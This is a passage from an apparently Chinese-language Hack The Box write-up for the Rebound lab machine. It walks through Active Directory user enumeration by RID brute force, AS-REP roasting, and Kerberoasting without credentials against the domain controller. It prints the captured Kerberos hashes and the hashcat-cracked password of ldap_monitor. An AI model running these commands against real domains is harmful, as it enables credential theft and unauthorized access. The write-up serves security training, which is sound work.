SMB         10.129.6.63    445    DC01             502: rebound\krbtgt (SidTypeUser)
SMB         10.129.6.63    445    DC01             512: rebound\Domain Admins (SidTypeGroup)
SMB         10.129.6.63    445    DC01             513: rebound\Domain Users (SidTypeGroup)
SMB         10.129.6.63    445    DC01             514: rebound\Domain Guests (SidTypeGroup)
SMB         10.129.6.63    445    DC01             515: rebound\Domain Computers (SidTypeGroup)
SMB         10.129.6.63    445    DC01             516: rebound\Domain Controllers (SidTypeGroup)
SMB         10.129.6.63    445    DC01             517: rebound\Cert Publishers (SidTypeAlias)
SMB         10.129.6.63    445    DC01             518: rebound\Schema Admins (SidTypeGroup)
SMB         10.129.6.63    445    DC01             519: rebound\Enterprise Admins (SidTypeGroup)
SMB         10.129.6.63    445    DC01             520: rebound\Group Policy Creator Owners (SidTypeGroup)
SMB         10.129.6.63    445    DC01             521: rebound\Read-only Domain Controllers (SidTypeGroup)
SMB         10.129.6.63    445    DC01             522: rebound\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.129.6.63    445    DC01             525: rebound\Protected Users (SidTypeGroup)
SMB         10.129.6.63    445    DC01             526: rebound\Key Admins (SidTypeGroup)
SMB         10.129.6.63    445    DC01             527: rebound\Enterprise Key Admins (SidTypeGroup)
SMB         10.129.6.63    445    DC01             553: rebound\RAS and IAS Servers (SidTypeAlias)
SMB         10.129.6.63    445    DC01             571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.129.6.63    445    DC01             572: rebound\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.129.6.63    445    DC01             1000: rebound\DC01$ (SidTypeUser)
SMB         10.129.6.63    445    DC01             1101: rebound\DnsAdmins (SidTypeAlias)
SMB         10.129.6.63    445    DC01             1102: rebound\DnsUpdateProxy (SidTypeGroup)
SMB         10.129.6.63    445    DC01             1951: rebound\ppaul (SidTypeUser)
SMB         10.129.6.63    445    DC01             2952: rebound\llune (SidTypeUser)
SMB         10.129.6.63    445    DC01             3382: rebound\fflock (SidTypeUser)
```

> 默认情况下，典型的 RID 循环攻击最高可达 RID 4000。对于更大的域，可能需要扩展它，因此我将切换到 `lookupsid.py`（尽管 `netexec` 也可以通过将最大数量添加到选项中来工作，例如 `--rid-brute 10000`）。我尝试 40,000 确实会找到更多用户（我没有找到任何超过 8,000 的用户）：

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo impacket-lookupsid whoami@rebound.htb -no-pass 40000 或 sudo Netexec smb 10.129.6.63 -u guest -p '' --rid-brute 40000

...... 

<新增加>

5277: rebound\jjones (SidTypeUser)
5569: rebound\mmalone (SidTypeUser)
5680: rebound\nnoon (SidTypeUser)
7681: rebound\ldap_monitor (SidTypeUser)
7682: rebound\oorend (SidTypeUser)
7683: rebound\ServiceMgmt (SidTypeGroup)
7684: rebound\winrm_svc (SidTypeUser)
7685: rebound\batch_runner (SidTypeUser)
7686: rebound\tbrady (SidTypeUser)
7687: rebound\delegator$ (SidTypeUser)
```

> 接下来格式化提取一下用户

```assembly
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ cat userSID | grep "SidTypeUser" |awk -F " " '{print $2}' | grep -v -e '\$' | awk -F "\\" '{print $2}' | tee users

Administrator
Guest
krbtgt
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
winrm_svc
batch_runner
tbrady
```

## **Foothold**

### **AS-Rep-Roast**

> 域渗透中当拿到域内用户名的时候，有些用户可能被设置成**不需要预身份验证(Pre-authentication)**的属性,就是**`AS-REP Roasting`**,它的原理就是正常客户端在请求票据的时候需要通过加密时间戳KDC(密钥分发中心)来证明自己的身份，但是如果用户被设置成不需要预身份验证，那就直接可以向域控KDC请求这个账号的加密凭据，KDC会返回使用密码的哈希票据，我来尝试破解一下

```apl
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo impacket-GetNPUsers -usersfile users -request -format hashcat -dc-ip 10.129.6.63 rebound.htb/
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ppaul doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User llune doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fflock doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jjones@REBOUND.HTB:9505a756fac8b1fade8c1dc59304bd67$dd0e0fb4c3a6d340cd04a2593bbb47a7dc199d6b6339ca68301536e4ba8dd774a8b01e620937806739706389c47d3b8945583afc64092813b4ab44616de60575c47faed3b1e829e29affdb9b2cc2718ec42e9eda4368ff57d6cbace9c379b1387bdae2660901eba277b0797bdbc1c68f4dbb7a5fa0bb2110d694a4180f8fe39e4f2119b24fe5fa5b5c672b1e53dbf947ffc109f61de611e076dd9fd16754549b510d07be5b4155d86016ea3d82e66ada612326263604f09a73f90c8ac46feef33f31741ddace1bfd78a879e4b95ddf6933e7cca2def08980ddcc190f626540b53377625bc71f0b2f4985
[-] User mmalone doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nnoon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ldap_monitor doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User oorend doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User winrm_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User batch_runner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tbrady doesn't have UF_DONT_REQUIRE_PREAUTH set

或者

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec ldap 10.129.6.63 -u users -p '' --asreproast asrep_user --continue-on-success

SMB         10.129.6.63    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
LDAP        10.129.6.63    445    DC01             $krb5asrep$23$jjones@REBOUND.HTB:4824f77f14d58be83ecd7f0823dae84d$6bf3adf0b6be6be4af887833cd01f6bd9ec2c7f39575618f10d70b1535b0a84c5fcc8c1101d69bab4d9484caaff6ec8d9acb6db7ec9f0c4beeb6c381cbb73c72f0b949fd77de954ea28f7f5711e667efbf92ec2acf7ee8d819a33bcf828eee23af7a68887b25be260b40146b5bd320909c6e13150374e5b6dd2f82be3942bc6b3495750eb5c3f812cad1862042d492f5cd47a11bb95833789ee62c83a49161462b37d9c35d169c264a9224535706c86d13cdd200a0ad3e99b234c3120e6cb54d128d844a68d6de91281a4b1521af522734c08d75c2a1ae5ac7872e6126d53410365202a2aeb7387711ca
```

> 接下来破解一下，但是失败了

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ hashcat --help | grep -i "kerb"

  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo hashcat -m 18200 '$krb5asrep$23$jjones@REBOUND.HTB:4824f77f14d58be83ecd7f0823dae84d$6bf3adf0b6be6be4af887833cd01f6bd9ec2c7f39575618f10d70b1535b0a84c5fcc8c1101d69bab4d9484caaff6ec8d9acb6db7ec9f0c4beeb6c381cbb73c72f0b949fd77de954ea28f7f5711e667efbf92ec2acf7ee8d819a33bcf828eee23af7a68887b25be260b40146b5bd320909c6e13150374e5b6dd2f82be3942bc6b3495750eb5c3f812cad1862042d492f5cd47a11bb95833789ee62c83a49161462b37d9c35d169c264a9224535706c86d13cdd200a0ad3e99b234c3120e6cb54d128d844a68d6de91281a4b1521af522734c08d75c2a1ae5ac7872e6126d53410365202a2aeb7387711ca' /usr/share/wordlists/rockyou.txt

hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

===========================================================================================================

Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$jjones@REBOUND.HTB:4824f77f14d58be83e...7711ca
Time.Started.....: Tue Mar 11 16:57:35 2025 (7 secs)
Time.Estimated...: Tue Mar 11 16:57:42 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2202.8 kH/s (1.01ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 14344386/14344386 (100.00%)
Rejected.........: 0/14344386 (0.00%)
Restore.Point....: 14344386/14344386 (100.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....:  kristenanne -> xxl-job-admin

Started: Tue Mar 11 16:57:11 2025
Stopped: Tue Mar 11 16:57:45 2025
```

> 继续调优 添加规则

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo hashcat -m 18200 '$krb5asrep$23$jjones@REBOUND.HTB:4824f77f14d58be83ecd7f0823dae84d$6bf3adf0b6be6be4af887833cd01f6bd9ec2c7f39575618f10d70b1535b0a84c5fcc8c1101d69bab4d9484caaff6ec8d9acb6db7ec9f0c4beeb6c381cbb73c72f0b949fd77de954ea28f7f5711e667efbf92ec2acf7ee8d819a33bcf828eee23af7a68887b25be260b40146b5bd320909c6e13150374e5b6dd2f82be3942bc6b3495750eb5c3f812cad1862042d492f5cd47a11bb95833789ee62c83a49161462b37d9c35d169c264a9224535706c86d13cdd200a0ad3e99b234c3120e6cb54d128d844a68d6de91281a4b1521af522734c08d75c2a1ae5ac7872e6126d53410365202a2aeb7387711ca' /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/InsidePro-PasswordsPro.rule --potfile-disable -O -w 3
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
===========================================================================================================
* Device #1: cpu-haswell-AMD Ryzen 7 6800H with Radeon Graphics, 2917/5898 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 31

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 3234

Optimizers applied:
* Optimized-Kernel
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921521
* Keyspace..: 46389744324

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => s

Session..........: hashcat
Status...........: Running
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$jjones@REBOUND.HTB:4824f77f14d58be83e...7711ca
Time.Started.....: Tue Mar 11 17:03:20 2025 (8 secs)
Time.Estimated...: Tue Mar 11 20:03:11 2025 (2 hours, 59 mins)
Kernel.Feature...: Optimized Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Mod........: Rules (/usr/share/hashcat/rules/InsidePro-PasswordsPro.rule)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  4296.6 kH/s (64.23ms) @ Accel:256 Loops:128 Thr:1 Vec:8
Recovered........: 0/1 (0.00%) Digests (total), 0/1 (0.00%) Digests (new)
Progress.........: 30949376/46389744324 (0.07%)
Rejected.........: 0/30949376 (0.00%)
Restore.Point....: 8192/14344386 (0.06%)
Restore.Sub.#1...: Salt:0 Amplifier:2176-2304 Iteration:0-128
Candidate.Engine.: Device Generator
Candidates.#1....: TheTotal90 -> 1assole

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit =>

·······
```

> 最终也没有破解出密码，放弃破解，更换另一种方法 Kerberos.........

### **Kerberoasting without credentials**

> 研究发现，`sname`字段通常被设置为 `krbtgt/domain.local`以请求TGT。然而，当将其修改为目标服务的服务主体名称(SPN)时，域控制器(DC)会直接返回服务票据，而无需经过票据授予服务(TGS)。这种行为源于AS-REQ请求体未加密的特性，特别是在未启用Kertberos加固(FAST,Flexible AuthenticationSecure Tuneing)时，攻击者可以轻松拦裁、修改并重放请求。
>
> 通过这种方法，攻击者不仅可以使用已知账户发起请求，还可结合用户枚举生成的用户名列表逐一尝试。这对配置为无需预认证(`DONT_REQ_PREAUTH`)的账户尤为有效，因其允许攻击者在无需任何凭据的情况下直接获取服务票据中的加密数据，用于商线破解服务账户的长时密钥(如NTLM哈希)。`sname`字段的修改为 Kerberasting提供了一种全新的路径，兼具隐蔽性与高效性，

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo impacket-GetUserSPNs -no-preauth jjones -usersfile users  -dc-host dc01.rebound.htb rebound.htb/

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$add2f9f227fa193924799055$d2804bee954f727104e4e74af228b031afc4daecc28baa575b2dcafd6f8ad49695929530ab1dee00c1176cf32651d3787e314934a943f2879a0aaa1862be8fa02f8632990fd80631fa21f288e1692c6bf161ea2fd175bce0b7bdc028ad5cb83c5d48be6400f43ae4eae5da410420563d08a52a6de9fe82d087cbc6355eaed0bc2e7186b1455068ed0d806bf3996732942b66b0c5a114e749757cd3ff2cabf79bc64f7fe49eff7a108562d8be7cc4a2aedac6cda003f761fcdbb1d7fdb84bfbe1cd76bda83c7c9a7f29356b2c929279578449e9e94997bb08c46a20bd972f5c01136bdd4eea0938a307ceb0c735c1773d9a75a1b87aaded5e8d8651625c20407d3c934f3c0f55273e29b6e2b36a545055ce582a5c1851d381f7e08d9f319e1a85d7808dd5fef811b1b1d1720e323c0ea59a8af6a13082d642eb953ea8aff7452097785cf39b9e6232295b4bbd6383b6ca8be2b477e6a50a4bff46b377bb3a1f491db91d9d81f0cc7eb81eae498997d8edcce824c498232ec3b060dfbd45da4362985cd08d4a48ef75df3bc7fe08f68c2353a35a906ce4b171c099857e63e8a6bd9d6750e746f48f2bf9fedbe4b75fd3ff73363df92d8f75e149d8e52e80d21648bf0d8f6a6f778f96f6ed294b99bcc8807948810156bdc2d29da85dc6e8521750f458ae94e0d2fbad8f0dd108228f19d475962d0c8cd7320d2e21959ceef836d20ea4e3c3c13543c0253a665b0d55a3d94ada0b546e9cc46ed3c450fb5208368dfdde33a8549e946d6a0302de9fb20e94e687b75e3a4dcb5b73c008c88e18c0603cb48b84bc6a99278c44004045c92748ab6caf7e82a12d87dfd05766ff5f4087fd768c47b0284c75b24c77f2f6e7d9987e76d168160c1615ea7edaf88044978a720f108896ce8671ac38f1539dd443a4cb22e2c761c0a9ddb58d4923e2e0ad21152a945f610323ee4a46db1b5774fc3a08f540cf390bad316062e226b0bdd842623a288104d9e4ab4e98f2d92929e8e33dc66e4eb66d6f1eecbec92726c9e10986401a1bf3c72ceded4cbf2b9b902c774deb04f2fb3ea0c0c480036d1b2686abae2de5975770e557584a5be198eefee4826c4911da42d2b093f73932269c0801f3bdf1beb42271e6e9e62e79386473c87a919d2698f7e9b2f9ebdb632c3621ae20ffd5638c9a2d558aa41420cdefca5735182aba282b64d71305f42837ed26342b78d99308eb5000855fb89632d038165310d31b7b8386b3888b7c776f3e08ecb99b45b7656d5491be335107156b5cc82b3b35f78101afbc9605c39a3fe92c43fe6eb3295c30c157317b10c7d66ada6792b91741743cea72b783ed7a90d2a26ede08ba73af3996e0b28ab06f24ce181cedeee43ed0ee94f05b9bf89434ad2d8f95aa0e67c65b8790feda1053887b4c03b02d555591a5ee87e683c922aadfef8e77c0820809d8fc1ed697eab36d079626420c
[-] Principal: ppaul - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: llune - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: fflock - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: jjones - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: mmalone - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: nnoon - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$a407206a64c5179020819a41407ada03$88b175590229a57ab7f1410524d6c8167cb5608e336b78b634f10f2f13af6a78df1e78d3aa4e544f44d0ed01cc118d907d55a29fb5c58fe551bdff8fc2fd1db597a0440229f83322f42e06dd9bf72e18ac92196e608a33d895d332398dfbfd9c9b5722dc1bb8aa7dfad7d0a15e4dabc1ff2ce8b15a7f52c8bc19a63ec64d7ae5968e417ef662f7c7d881118d5d52eb26b0c75f6021ef3e28da7d09c64b11f6f96b32312332a9bb5696bb7c95ea549d0fc152d3859a60ebb9b0fcef204d9b45ed3179b09e3d14439c1b5cc20959b75b21d36fc3a2a750dbacd78c874edc42cf4521624e0d42a5f965601b00866bf368ebd3eb56aafb2bb7c10a50ddeec95c2805ff781f0e5f37e1cfed341d21acabe63547e3e72c4c64209311ab80a490c9ff18bc32f262f5ed748e215389ba93dc55779d33316572ae16446425ce2b75f28ec579e481e473a7c2071c68a1222ac84bcbcd3e580714d789693cc5b542283022d50df3b8161605c4876a83d765eaaca4317ea05c3c7247906eecd173b0bd84f69021546e7ae2b0d070553b13387833c13e1b6813c895861863cd0f8ef332cb5db924c40870aae202008a0350662d74cd15269dd96c2079efc57fca22878a74081c58a31529cc8a61d33e98dd009616ffc9713c11d3d6f2e22b0ee07a8e004432765fb667d7712fc1b696e2eb64cad6d1c462b6921a40994275494ff647ef6bf64b676487a54ed426effd4a570e40db1f6a35a936f32f1583106e3535f9ff4d02fb727b03ac0744ba5fe4b96223bee634dfde8f5f6cad71695abff1b53685518add4f9b3448ba393fb0f2592ef1abb722a11190df511722aa695ff027c30aaba26b898a335f65e9a2600e8b8274cfb987ca2deb2722a8eaf6921dbbe941eb8944e7de2e90132f9625cc30e924f0ac03fc94851bdf7c8bda6152ff02cd2df8d6f49754cfb826c4fb24be70ef516573c5c49281f1a9c93b775c2b900064593c3fec8f210c6f954585c42b3e42cd4a550964300e698705b4e4036bb9b67b91f2421f45aa1db23ff55bb3b9730ff8a42cad23efc1e02049cb200d650b27669bfb6b98e30cdb0c129b49b0c2c91c2a5e9d61ae652ce99423bb8ffd1548330f58f0e3ecfe220cb8c0c8dc7d0313214501321447c2beac87d37f1f6e8df70f5d3e218dccbb8ab44bd80f3bded1ba09b1a3411a1f94c43b648490d5f04a5f0c0592e505120689b34198ecb7739c5307dacec1015b94e62667bbb4406fba1a1114780ed270c3a84befdea755c9a470cf6c1075f38bf4e781f395e84deba41d3a2b09035ec5c4aa252f069f837463474626dcc6998ea520b5c6ed7be72c037e36148e609787795e6b
[-] Principal: oorend - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: winrm_svc - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: batch_runner - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: tbrady - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

> ***krbtgt*** 用于系统维护的，没有必要Roasting,而另一个用户则有必要尝试一下

```assembly
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ hashcat --help | grep -i "kerb"
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol

┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo hashcat -m 13100 '$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$a407206a64c5179020819a41407ada03$88b175590229a57ab7f1410524d6c8167cb5608e336b78b634f10f2f13af6a78df1e78d3aa4e544f44d0ed01cc118d907d55a29fb5c58fe551bdff8fc2fd1db597a0440229f83322f42e06dd9bf72e18ac92196e608a33d895d332398dfbfd9c9b5722dc1bb8aa7dfad7d0a15e4dabc1ff2ce8b15a7f52c8bc19a63ec64d7ae5968e417ef662f7c7d881118d5d52eb26b0c75f6021ef3e28da7d09c64b11f6f96b32312332a9bb5696bb7c95ea549d0fc152d3859a60ebb9b0fcef204d9b45ed3179b09e3d14439c1b5cc20959b75b21d36fc3a2a750dbacd78c874edc42cf4521624e0d42a5f965601b00866bf368ebd3eb56aafb2bb7c10a50ddeec95c2805ff781f0e5f37e1cfed341d21acabe63547e3e72c4c64209311ab80a490c9ff18bc32f262f5ed748e215389ba93dc55779d33316572ae16446425ce2b75f28ec579e481e473a7c2071c68a1222ac84bcbcd3e580714d789693cc5b542283022d50df3b8161605c4876a83d765eaaca4317ea05c3c7247906eecd173b0bd84f69021546e7ae2b0d070553b13387833c13e1b6813c895861863cd0f8ef332cb5db924c40870aae202008a0350662d74cd15269dd96c2079efc57fca22878a74081c58a31529cc8a61d33e98dd009616ffc9713c11d3d6f2e22b0ee07a8e004432765fb667d7712fc1b696e2eb64cad6d1c462b6921a40994275494ff647ef6bf64b676487a54ed426effd4a570e40db1f6a35a936f32f1583106e3535f9ff4d02fb727b03ac0744ba5fe4b96223bee634dfde8f5f6cad71695abff1b53685518add4f9b3448ba393fb0f2592ef1abb722a11190df511722aa695ff027c30aaba26b898a335f65e9a2600e8b8274cfb987ca2deb2722a8eaf6921dbbe941eb8944e7de2e90132f9625cc30e924f0ac03fc94851bdf7c8bda6152ff02cd2df8d6f49754cfb826c4fb24be70ef516573c5c49281f1a9c93b775c2b900064593c3fec8f210c6f954585c42b3e42cd4a550964300e698705b4e4036bb9b67b91f2421f45aa1db23ff55bb3b9730ff8a42cad23efc1e02049cb200d650b27669bfb6b98e30cdb0c129b49b0c2c91c2a5e9d61ae652ce99423bb8ffd1548330f58f0e3ecfe220cb8c0c8dc7d0313214501321447c2beac87d37f1f6e8df70f5d3e218dccbb8ab44bd80f3bded1ba09b1a3411a1f94c43b648490d5f04a5f0c0592e505120689b34198ecb7739c5307dacec1015b94e62667bbb4406fba1a1114780ed270c3a84befdea755c9a470cf6c1075f38bf4e781f395e84deba41d3a2b09035ec5c4a
a252f069f837463474626dcc6998ea520b5c6ed7be72c037e36148e609787795e6b' /usr/share/wordlists/rockyou.txt --potfile-disable
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0+debian  Linux, None+Asserts, RELOC, LLVM 18.1.8, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]

===========================================================================================================

* Device #1: cpu-haswell-AMD Ryzen 7 6800H with Radeon Graphics, 2917/5898 MB (1024 MB allocatable), 8MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 2 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921521
* Keyspace..: 14344386

$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$a407206a64c5179020819a41407ada03$88b175590229a57ab7f1410524d6c8167cb5608e336b78b634f10f2f13af6a78df1e78d3aa4e544f44d0ed01cc118d907d55a29fb5c58fe551bdff8fc2fd1db597a0440229f83322f42e06dd9bf72e18ac92196e608a33d895d332398dfbfd9c9b5722dc1bb8aa7dfad7d0a15e4dabc1ff2ce8b15a7f52c8bc19a63ec64d7ae5968e417ef662f7c7d881118d5d52eb26b0c75f6021ef3e28da7d09c64b11f6f96b32312332a9bb5696bb7c95ea549d0fc152d3859a60ebb9b0fcef204d9b45ed3179b09e3d14439c1b5cc20959b75b21d36fc3a2a750dbacd78c874edc42cf4521624e0d42a5f965601b00866bf368ebd3eb56aafb2bb7c10a50ddeec95c2805ff781f0e5f37e1cfed341d21acabe63547e3e72c4c64209311ab80a490c9ff18bc32f262f5ed748e215389ba93dc55779d33316572ae16446425ce2b75f28ec579e481e473a7c2071c68a1222ac84bcbcd3e580714d789693cc5b542283022d50df3b8161605c4876a83d765eaaca4317ea05c3c7247906eecd173b0bd84f69021546e7ae2b0d070553b13387833c13e1b6813c895861863cd0f8ef332cb5db924c40870aae202008a0350662d74cd15269dd96c2079efc57fca22878a74081c58a31529cc8a61d33e98dd009616ffc9713c11d3d6f2e22b0ee07a8e004432765fb667d7712fc1b696e2eb64cad6d1c462b6921a40994275494ff647ef6bf64b676487a54ed426effd4a570e40db1f6a35a936f32f1583106e3535f9ff4d02fb727b03ac0744ba5fe4b96223bee634dfde8f5f6cad71695abff1b53685518add4f9b3448ba393fb0f2592ef1abb722a11190df511722aa695ff027c30aaba26b898a335f65e9a2600e8b8274cfb987ca2deb2722a8eaf6921dbbe941eb8944e7de2e90132f9625cc30e924f0ac03fc94851bdf7c8bda6152ff02cd2df8d6f49754cfb826c4fb24be70ef516573c5c49281f1a9c93b775c2b900064593c3fec8f210c6f954585c42b3e42cd4a550964300e698705b4e4036bb9b67b91f2421f45aa1db23ff55bb3b9730ff8a42cad23efc1e02049cb200d650b27669bfb6b98e30cdb0c129b49b0c2c91c2a5e9d61ae652ce99423bb8ffd1548330f58f0e3ecfe220cb8c0c8dc7d0313214501321447c2beac87d37f1f6e8df70f5d3e218dccbb8ab44bd80f3bded1ba09b1a3411a1f94c43b648490d5f04a5f0c0592e505120689b34198ecb7739c5307dacec1015b94e62667bbb4406fba1a1114780ed270c3a84befdea755c9a470cf6c1075f38bf4e781f395e84deba41d3a2b09035ec5c4aa252f069f837463474626dcc6998ea520b5c6ed7be72c037e36148e609787795e6b:1GR8t@$$4u

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*...795e6b
Time.Started.....: Tue Mar 11 17:17:57 2025 (6 secs)
Time.Estimated...: Tue Mar 11 17:18:03 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  2262.8 kH/s (1.03ms) @ Accel:512 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 13041664/14344386 (90.92%)
Rejected.........: 0/13041664 (0.00%)
Restore.Point....: 13037568/14344386 (90.89%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 1Montanasky -> 1COLORADO

Started: Tue Mar 11 17:17:43 2025
Stopped: Tue Mar 11 17:18:05 2025
```

> 至此,我们获取了一组明文凭据 `ldap_monitor:1GR8t@$$4u`

```shell
┌──(whoami👑.AsyNoo)-[~/Documents/HacktheBox/HTB:Rebound]
└─$ sudo Netexec smb rebound.htb -u 'ldap_monitor' -p '1GR8t@$$4u' --shares

